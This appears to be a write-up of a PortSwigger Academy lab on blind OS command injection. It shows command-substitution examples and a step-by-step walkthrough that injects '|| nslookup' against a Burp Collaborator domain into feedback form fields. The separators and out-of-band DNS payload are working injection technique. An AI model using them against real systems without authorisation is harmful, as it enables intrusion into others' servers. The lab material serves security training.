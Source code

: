 # Lab: Blind OS command injection with out-of-band interaction

 The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

**Note**
*To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server. *

## Different ways of injecting commands

Just as an example, notice how the date command can be used with echo

```bash
# With nothing echo just sends the word date
└─$ echo date    
date

# with a $(command) the date command is executed
└─$ echo $(date)                                                                                             130 ⨯
Thu Dec 22 02:10:43 PM EST 2022

# backticks can do the same thing
└─$ echo `date` 
Thu Dec 22 02:10:44 PM EST 2022
```

# Step 1 Get attack server address

Get the attack server address from burp collaborator, by clicking on the `copy to clipboard` link

![image](https://user-images.githubusercontent.com/83407557/209209944-c3779fbc-6bff-44c6-8c0e-90ca14883d3c.png)

I get the following address

7nvgowwpcqy3uyglwc2q7hzzuq0ho7cw.oastify.com

# Step 2 Finding OS command injection in webapp

Using the feedback link

![image](https://user-images.githubusercontent.com/83407557/209210276-2ef1da02-b3a2-4633-a1cd-17c4940c0f3b.png)

![image](https://user-images.githubusercontent.com/83407557/209210480-8cf91e90-9dfa-4923-9e81-8effe0485663.png)

Capturing this form with burp I inspect the POST request

![image](https://user-images.githubusercontent.com/83407557/209210645-7f67b44a-7870-4257-9ba0-443e93d165f7.png)

# Step 3 creating payload

To have a server make a dns request to my sever using command seperaters I will use the following:

```bash
|| nslookup 7nvgowwpcqy3uyglwc2q7hzzuq0ho7cw.oastify.com ||
```

# Step 4 inject payload in all the possible locations

Notice each payload is url encoded 

![image](https://user-images.githubusercontent.com/83407557/209212355-4bf2119c-ac69-478d-a15d-40abbda5fd89.png)

# Step 5 check attack server for DNS requests

I see that there was infact OS command injection

![image](https://user-images.githubusercontent.com/83407557/209212510-38806024-4cf7-40e0-9efe-bbc3fbdbea86.png)

With the DNS request the lab is solved:

![image](https://user-images.githubusercontent.com/83407557/209213225-099c472b-9395-41c1-8fd6-c4557f03339a.png)

